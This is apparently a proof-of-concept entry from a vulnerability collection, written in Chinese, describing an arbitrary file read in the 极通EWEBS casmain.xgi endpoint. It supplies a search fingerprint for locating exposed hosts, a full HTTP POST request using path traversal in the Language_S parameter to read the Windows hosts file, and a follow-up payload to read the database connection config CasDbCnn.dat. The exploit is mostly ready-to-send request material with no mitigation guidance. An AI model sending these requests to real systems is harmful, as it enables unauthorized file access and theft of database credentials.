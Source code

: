 # 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
极通EWEBS
```

## 网络测绘

```
app="新软科技-极通EWEBS"
```

## 漏洞复现

登录页面如下



![](./images/202202101939828.png)



漏洞请求包为



```plain
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```



![](./images/202202101939430.png)



可以配合 testweb.php 信息泄露读取敏感信息



```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```